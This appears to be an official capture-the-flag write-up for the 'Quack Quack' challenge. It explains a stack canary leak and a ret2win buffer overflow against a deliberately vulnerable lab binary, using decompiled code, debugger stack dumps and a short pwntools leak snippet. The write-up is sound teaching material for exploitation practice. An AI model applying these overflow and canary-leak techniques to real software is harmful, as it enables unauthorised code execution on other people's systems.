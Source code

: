 ![](assets/banner.png)



<img src="assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />    	    <font size="6">Quack Quack</font>

​		4<sup>th</sup> May 2024 / Document No. D25.102.XX

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=green>Easy</font>

​		Classification: Official

 



# Synopsis

Quack Quack is an easy difficulty challenge that features leaking `canary` and overwrite the return address to perform a `ret2win` attack.

# Description

On the quest to reclaim the Dragon's Heart, the wicked Lord Malakar has cursed the villagers, turning them into ducks! Join Sir Alaric in finding a way to defeat them without causing harm. Quack Quack, it's time to face the Duck!

## Skills Required

- Canaries, Buffer Overflow.

## Skills Learned

- Calculating stack layout to leak address and perform `ret2win`.

# Enumeration

First of all, we start with a `checksec`:  

```console
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'./glibc/'
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ❌       | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

The program's interface:

![](assets/inter.png)

We cannot understand many things from the interface so we need to dig deeper.

### Disassembly

Starting with `main()`:

```c
00401605  int32_t main(int32_t argc, char** argv, char** envp)

00401611      void* fsbase
00401611      int64_t rax = *(fsbase + 0x28)
00401625      duckling()
00401633      *(fsbase + 0x28)
0040163c      if (rax == *(fsbase + 0x28))
00401644          return 0
0040163e      __stack_chk_fail()
0040163e      noreturn
```

As we can see, `main` only calls `duckling()`. Taking a look there.

```c
004014a0  int64_t duckling()

004014a0  {
004014af      void* fsbase;
004014af      int64_t canary = *(uint64_t*)((char*)fsbase + 0x28);
004014be      int64_t buf1;
004014be      __builtin_memset(&buf1, 0, 0x70);
0040153d      printf("Quack the Duck!\n\n> ");
0040154c      fflush(__TMC_END__);
00401562      read(0, &buf1, 0x66);
00401578      char* str_res = strstr(&buf1, "Quack Quack ");
0040158c      if (str_res == 0)
0040158c      {
00401598          error("Where are your Quack Manners?!\n");
004015a2          exit(0x520);
004015a2          /* no return */
0040158c      }
004015c4      printf("Quack Quack %s, ready to fight t…", &str_res[0x20]);
004015da      int64_t buf2;
004015da      read(0, &buf2, 0x6a);
004015e9      puts("Did you really expect to win a f…");
004015fc      if (canary == *(uint64_t*)((char*)fsbase + 0x28))
004015fc      {
00401604          return (canary - *(uint64_t*)((char*)fsbase + 0x28));
004015fc      }
004015fe      __stack_chk_fail();
004015fe      /* no return */
004014a0  }
```

As we can see, there are 2 buffers, `buf1[0x70]` and `buf2[]` of unknown size so far. The juice of the challenge is these 2 lines:

```c
char* str_res = strstr(&buf1, "Quack Quack ");
printf("Quack Quack %s, ready to fight t…", &str_res[0x20]);
```

Our first input goes to `buf1` and we get a leak of `str_res[0x20]`. That means we can leak up to `0x20` from the end of the buffer where the string `Quack Quack ` is found in our input string. Luckily, we see that we can leak the `canary` address at such offset. After that, we can overflow the second buffer and perform a `ret2win`. There is a function called `duck_attack` that prints the flag.

```c
0040137f  int64_t duck_attack()
    
0040137f  {
0040138b      void* fsbase;
0040138b      int64_t rax = *(uint64_t*)((char*)fsbase + 0x28);
004013ae      int32_t fd = open("./flag.txt", 0);
004013ba      if (fd < 0)
004013ba      {
004013c6          perror("\nError opening flag.txt, please…");
004013d0          exit(1);
004013d0          /* no return */
004013ba      }
004013fe      while (true)
004013fe      {
00401406          char buf;
00401406          if (read(fd, &buf, 1) <= 0)
00401406          {
00401406              break;
00401406          }
004013e8          fputc(((int32_t)buf), __TMC_END__);
004013fe      }
0040140d      close(fd);
00401420      if (rax == *(uint64_t*)((char*)fsbase + 0x28))
00401420      {
00401428          return (rax - *(uint64_t*)((char*)fsbase + 0x28));
00401420      }
00401422      __stack_chk_fail();
00401422      /* no return */
0040137f  }
```

### Debugging 

Now, to prove all this theory we can check the debugging. Running the program and adding 8 "A". After `read`, we see the status of `$rsi`.

```gdb
pwndbg> x/20gx $rsi
0x7fffffffdd80:	0x4141414141414141	0x000000000000000a // 0x10
0x7fffffffdd90:	0x0000000000000000	0x0000000000000000 // 0x20
0x7fffffffdda0:	0x0000000000000000	0x0000000000000000 // 0x30
0x7fffffffddb0:	0x0000000000000000	0x0000000000000000 // 0x40
0x7fffffffddc0:	0x0000000000000000	0x0000000000000000 // 0x50
0x7fffffffddd0:	0x0000000000000000	0x0000000000000000 // 0x60
0x7fffffffdde0:	0x0000000000000000	0x0000000000000000 // 0x70
0x7fffffffddf0:	0x0000000000000000	0x5c9f27b935a3ab00 // 0x80
0x7fffffffde00:	0x00007fffffffde20	0x000000000040162a
0x7fffffffde10:	0x0000000000000000	0x5c9f27b935a3ab00
```

We see that the canary lies at `0x80` from the start of the buffer. As we can leak up to `0x20` bytes, we can find out that we leak the canary address (7 bytes and adding the last 0 due to `read`) at `0x71` bytes.

```python
r.sendlineafter('> ', b'A'* (0x65 - len('Quack Quack ')) + b'Quack Quack ')

r.recvuntil('Quack Quack ')

canary = u64(r.recv(7).rjust(8, b'\x00'))
```

After that, we need to calculate where we start to write our second input and check the `canary` and `return address` offsets.

```gdb
pwndbg> x/20gx $rsi
0x7fffffffdda0:	0x0000000a42424242	0x0000000000000000 // 0x10
0x7fffffffddb0:	0x0000000000000000	0x0000000000000000 // 0x20
0x7fffffffddc0:	0x0000000000000000	0x0000000000000000 // 0x30
0x7fffffffddd0:	0x0000000000000000	0x0000000000000000 // 0x40
0x7fffffffdde0:	0x0000000000000000	0x0000000000000000 // 0x50
0x7fffffffddf0:	0x0000000000000000	0x4d559fb679f97c00 // 0x60
0x7fffffffde00:	0x00007fffffffde20	0x000000000040162a
0x7fffffffde10:	0x0000000000000000	0x4d559fb679f97c00
0x7fffffffde20:	0x0000000000000001	0x00007ffff7c29d90
0x7fffffffde30:	0x0000000000000000	0x0000000000401605
```

We see that the `canary` is at `0x58` bytes from the start of the second buffer. Then a dummy address and then the `return address`. Knowing all this and the address of `duck_attack()`, we can craft our exploit.

# Solution

```console
Running solver remotely at 0.0.0.0 1337

Canary: 0x289b84d0de9a8500

Flag --> HTB{XXX}
```

